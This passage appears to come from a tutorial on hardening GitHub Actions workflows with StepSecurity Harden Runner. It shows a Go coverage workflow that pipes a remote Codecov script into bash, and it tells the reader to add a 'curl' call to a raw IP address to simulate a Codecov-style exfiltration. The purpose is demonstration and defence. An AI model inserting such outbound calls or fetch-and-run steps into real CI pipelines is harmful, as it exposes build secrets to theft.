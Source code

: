     on: [push, pull_request, workflow_dispatch]

    jobs:
      build:
        runs-on: ubuntu-latest
        steps:
          #Add StepSecurity Harden Runner from here onwards
          - uses: step-security/harden-runner@v1
            with:
              allowed-endpoints: 
                codecov.io:443
                github.com:443
          - uses: actions/checkout@v2
            with:
              fetch-depth: 2
          - uses: actions/setup-go@v2
            with:
              go-version: '1.17'
          - name: Run coverage
            run: go test -race -coverprofile=coverage.txt -covermode=atomic
          - name: Upload coverage to Codecov
            run: |
              bash <(curl -s https://codecov.io/bash)
    ```

8. Simulate an exfiltration attack similar to Codecov. Update the workflow and add the following statement. The bash uploader is no longer vulnerable, but when it was, it would have made an additional outbound call, which is being simulated here. 

    ```yaml
    - name: Upload coverage to Codecov
      run: |
        bash <(curl -s https://codecov.io/bash)
        curl -X GET http://104.248.94.23   
    ```
    The updated file should look like this:
    ```yaml
    name: Test and coverage

    on: [push, pull_request, workflow_dispatch]

    jobs:
      build:
        runs-on: ubuntu-latest
        steps:
          #Add StepSecurity Harden Runner from here onwards
          - uses: step-security/harden-runner@v1
            with:
              allowed-endpoints: 
                codecov.io:443
                github.com:443
          - uses: actions/checkout@v2
            with:
              fetch-depth: 2
          - uses: actions/setup-go@v2
            with:
              go-version: '1.17'
          - name: Run coverage
            run: go test -race -coverprofile=coverage.txt -covermode=atomic
          - name: Upload coverage to Codecov
            run: |
              bash <(curl -s https://codecov.io/bash)
              curl -X GET http://104.248.94.23
    ```
